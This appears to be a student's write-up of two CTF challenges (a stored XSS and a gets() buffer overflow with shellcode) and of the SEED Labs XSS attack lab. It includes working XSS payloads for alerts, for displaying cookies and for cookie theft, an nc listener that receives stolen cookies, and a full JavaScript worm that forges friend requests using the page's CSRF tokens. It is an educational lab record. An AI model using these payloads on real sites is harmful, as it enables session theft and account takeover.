





# CTF

## Challenge 1

### Recon

- We started by sending a random request just to see what would happen. 
- It was rejected after a while, but we noticed that our input would go in the HTML of the page, without any protection.
- After we send the request, two disabled buttons are revealed, including the one that sends the flag, the one we want the admin to click. 

### Vulnerability

We realized that, if our input goes in the HTML code without any protection, we are able to inject code. Using script tags (`<script>`), we are able to inject JavaScript in the page.

After inspecting the button that gives the flag, we got its id: `giveflag`. We need the admin to click on said button, there is no use in pressing it ourselves, as we don't have the necessary permissions. Our goal was to send a request that, when received by the admin, would click the button instantly. For that, we used JavaScript's `click()` method. 

So, after sending the input `<script> document.getElementById("giveflag").click() </script>` and wanting the 2 minutes, we got the flag - `flag{aee2a3da1e8e9588d6f60b6c02bdf0e5}`

## Challenge 2

### Recon

- By running `checksec` we found that there is no canary, and the stack is executable.
- By looking at the source, we found that `gets(buffer)` was being used to save the user input to the buffer, which is vulnerable to a buffer overflow attack.

### Vulnerability

After identifying the buffer overflow, we needed to use it to get a shell in the server, in order to get the flag. We did this by injecting shellcode (27 bytes) between the buffer's (100 bytes) start address and the return address (with the remaining bytes filled with NOP instructions), and overwriting the return address to redirect the program flow to the shellcode. Using `gdb` we calculated the offset between these two addresses.

To get the shellcode and write an exploit script, we adapted the exploit from SEED Labs - Buffer Overflow Attack Lab ([Logbook 5](LOGBOOK5.md)).

We successfully launched a shell, first locally and then in the server, which allowed us to `cat` the `flag.txt` file and retrieve the flag.

# SEED Labs

## Cross-Site Scripting (XSS) Attack Lab

### Task 1: Posting a Malicious Message to Display an Alert Window

- We started by doing the setup, including the DNS and server setups, as we did for the previous lab. 

- This time we also installed the Firefox add-on *HTTP Header Live*, with the goal of capturing and analyze HTTP requests.

- To display an alert window, we just embedded the JavaScript code `<script>alert('XSS');</script>` in the `Brief description` field of a random profile (in this case, Alice's). This causes an alert window with the message *XSS* to be displayed each time a user accesses Alice's profile.



### Task 2: Posting a Malicious Message to Display Cookies

- To display the user's cookies in an alert window on a profile, we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the `Brief description` field of Alice's profile (yet again). This causes an alert window displaying the viewer's cookies to appear each time a user accesses Alice's profile.



### Task 3: Stealing Cookies from the Victim’s Machine

- This time around, our goal is to get the cookies of the visitors of a profile, but in such a way that only we, the attackers, can see. To achieve this, we want an *HTTP GET* request to be sent to our machine containing the user's cookies. It can be done by having the malicious JavaScript insert an `` tag with its `src` attribute set to the our machine. When the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field. The *HTTP GET* request, will then, be sent to the port we will specify in the referred `src` field, in this case the `port 5555`.

- We executed this by embedding the following script `<script>document.write('');</script>` once again in the `Brief description` field of Alice's profile.

- Finally, we set up a TCP server to listen the `port 5555`, using the command `nc -lknv 5555`, in order to obtain the *HTTP GET* request containing the cookies.



### Task 4: Becoming the Victim’s Friend

- The objective of this task is to write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. In order to write said worm, we needed to understand the structure of the *HTTP* request for adding friends. To do that, we used the aforementioned *HTTP Header Live* Firefox add-on.

- We observed that when a user added Samy to his friend list, the *HTTP* request would be something like : `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg`. Basically it would always be `http://www.seed-server.com/action/friends/add?friend=59` plus the security tokens twice, with the number 59 being the identifier for Samy, as it changed when we tried to add users other than Samy as friends.

- Using the code skeleton provided for us, we embedded the following JavaScript code in the `About Me` field of Samy's profile:

```js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
console.log("TS TKN: " + ts);
console.log("TKN TKN: " + token);
var sendurl= "/action/friends/add?friend=" + "59" + ts + token + ts + token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

- It worked as intended! For example, Charlie's friend list looked like this initially:



- And changed to this, after only visiting Samy's profile:


